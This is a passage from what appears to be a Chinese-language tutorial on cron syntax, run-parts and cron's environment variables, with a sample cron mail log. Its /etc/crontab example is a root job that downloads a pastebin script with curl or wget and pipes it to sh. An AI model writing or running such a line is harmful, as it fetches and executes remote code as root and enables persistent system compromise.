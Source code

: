 #### command part
 
command part 指定了 schedule 的命令，以 newline 或者是 `%` 结尾(划分 cron entries)，默认会以 `/bin/sh` 运行
 
如果 command part 出现 `%`，且没有使用 `\` 转义，那么 `%` 会被认为是 newline ，并且 `%` 后面的内容都会会认为是 stdin 中的
 
#### `/etc/cron.d` and `/etc/crontab`
 
`/etc/cron.d` 和 `/etc/crontab` 是针对系统的 crontab files，并不知道需要以（那些）用户运行 command part。所以在 cron part 和 command part 之间新增了一个字段表示运行的用户
 
```
0 4 * * * root (crul -fsSL https://pastebin.com/raw/e8XzcU2Q || wget -q -O- https://pastebin.com/raw/e8XzcU2Q) | sh
```
 
#### run-parts
 
你可能还会在 crontab files 中常常看见 `run-parts`，例如默认的 `/etc/cron.d/0hourly`
 
```
# Run the hourly jobs
SHELL=/bin/bash
PATH=/sbin:/bin:/usr/sbin:/usr/bin
MAILTO=root
01 * * * * root run-parts /etc/cron.hourly
```
 
这其实就是 command part，而 `run-parts` 会运行指定目录下的所有 executable files。例如上述就会运行 `/etc/corn.hourly` 中所有的内容，通常就是一个 `0anacron` shell 脚本
 
### 0x03c Environments
 
**cron 并不会使用系统的全局变量(所以直接使用 PATH 下的命令，可能会不生效，尽可能使用绝对路径)**， 这一点可以使用如下规则来校验

```
[root@vbox ~]# echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin

[root@vbox ~]# crontab -l
* * * * * echo ${PATH}

[root@vbox mail]# tail -f root

From root@vbox.localdomain  Thu Oct 31 14:23:01 2024
Return-Path: <root@vbox.localdomain>
X-Original-To: root
Delivered-To: root@vbox.localdomain
Received: by vbox.localdomain (Postfix, from userid 0)
        id 36197600CFA6; Thu, 31 Oct 2024 14:23:01 +0800 (CST)
From: "(Cron Daemon)" <root@vbox.localdomain>
To: root@vbox.localdomain
Subject: Cron <root@vbox> echo ${PATH}
Content-Type: text/plain; charset=UTF-8
Auto-Submitted: auto-generated
Precedence: bulk
X-Cron-Env: <XDG_SESSION_ID=25>
X-Cron-Env: <XDG_RUNTIME_DIR=/run/user/0>
X-Cron-Env: <LANG=en_US.UTF-8>
X-Cron-Env: <SHELL=/bin/sh>
X-Cron-Env: <HOME=/root>
X-Cron-Env: <PATH=/usr/bin:/bin>
X-Cron-Env: <LOGNAME=root>
X-Cron-Env: <USER=root>
Message-Id: <20241031062301.36197600CFA6@vbox.localdomain>
Date: Thu, 31 Oct 2024 14:23:01 +0800 (CST)

/usr/bin:/bin
```